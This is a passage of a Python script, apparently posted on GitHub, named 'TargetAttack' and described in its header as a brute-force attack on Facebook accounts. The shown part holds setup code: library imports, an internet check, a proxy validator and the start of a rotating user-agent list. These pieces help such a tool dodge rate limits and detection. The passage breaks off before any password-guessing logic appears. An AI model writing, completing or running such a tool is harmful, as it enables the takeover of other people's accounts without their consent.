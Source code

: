 
#!/usr/bin/python
# -*- coding: utf-8 -*-
 
######################
# SCRIPT : TargetAttack
#    JOB : Brute Force Attack On Facebook Accounts
#Codedby : Shubham roy
######################
##--------------------- Import Libraries --------------------##
import socket,time,os,optparse,random,re
try:
  import requests
except ImportError:
  print("[!] Error: [ requests ] Module Is Missed \n[*] Please Install it Using this command> [ pip install requests ]")
  exit(1)
try:
  import mechanize
except ImportError:
      print("[!] Error: [ mechanize ] Module Is Missed \n[*] Please Install it Using this command> [ pip install mechanize ]")
      exit(1) 
os.system("cls||clear")
 
## COLORS ###############
wi="\033[1;37m" #>>White#
rd="\033[1;31m" #>Red   #
gr="\033[1;32m" #>Green #
yl="\033[1;33m" #>Yallow#
#########################
 
################## check internet Connection ######
def cnet():                                       #
   try:                                           #
      ip = socket.gethostbyname("www.google.com") #
      con = socket.create_connection((ip, 80), 2) #
      return True                                 #
   except socket.error:                           #
         pass                                     #
   return False                                   #
                                                  #
###################################################
 
#### Check Proxy ####
def cpro(ip,port=None):
  proxy = '{}:8080'.format(ip) if port ==None else '{}:{}'.format(ip,port)
  proxies = {'https': "https://"+proxy, 'http': "http://"+proxy}
  try:
    r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5) 
    if ip==r.headers['X-Client-IP']: return True
    else : return False
  except Exception : return False
#### Choice Random User-Agent ####
def useragent():
    useragents = [
           'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) RockMelt/0.9.58.494 Chrome/11.0.696.71 Safari/534.24',